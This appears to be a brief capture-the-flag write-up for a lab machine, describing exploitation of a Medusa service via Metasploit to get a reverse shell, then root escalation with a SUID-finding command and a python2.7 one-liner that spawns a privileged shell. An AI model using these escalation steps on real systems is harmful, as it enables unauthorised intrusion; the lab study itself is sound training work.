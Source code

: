 # Super Process Machine

Start with scan IP of machine

![image.png](<../../.gitbook/assets/image (1) (1) (1) (1).png>)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3 (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4 (1) (1).png" alt=""><figcaption></figcaption></figure>
